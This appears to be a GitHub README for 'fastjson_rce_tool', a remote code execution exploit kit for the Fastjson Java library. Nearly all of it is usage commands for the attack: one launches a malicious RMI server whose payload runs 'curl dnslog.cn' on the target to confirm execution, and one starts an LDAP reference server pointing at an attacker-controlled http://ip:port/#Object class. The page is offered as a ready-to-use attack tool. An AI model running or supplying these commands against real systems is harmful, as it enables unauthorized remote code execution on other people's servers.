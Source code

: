 # fastjson_rce_tool

rmi:
java -cp fastjson_tool.jar EvilRMIServer 1099 53 "curl dnslog.cn"


ladp:
java -cp fastjson_tool.jar LDAPRefServer http://ip:port/#Object 8888

示例：
![0](https://github.com/wyzxxz/fastjson_rce_tool/blob/master/work.png)

![1](https://github.com/wyzxxz/fastjson_rce_tool/blob/master/2.png)

